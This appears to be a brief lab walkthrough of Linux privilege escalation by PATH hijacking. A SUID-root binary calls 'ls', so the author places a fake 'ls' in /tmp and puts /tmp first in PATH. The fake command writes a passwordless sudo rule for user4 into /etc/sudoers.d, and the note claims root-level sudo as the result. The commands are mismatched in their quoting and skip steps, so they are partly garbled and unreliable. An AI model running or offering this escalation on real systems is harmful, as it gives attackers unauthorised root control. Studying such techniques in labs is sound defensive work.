

PATH Variable


script is opviously the binary for ls. It aslo has the SUID bit set to run as root.
cd /tmp
echo "echo "user4 ALL=(ALL) NOPASSWD:ALL" | sudo tee /etc/sudoers.d/user4'
export PATH=/tmp:$PATH
~/script (or ls)
now we are able to sudo without a password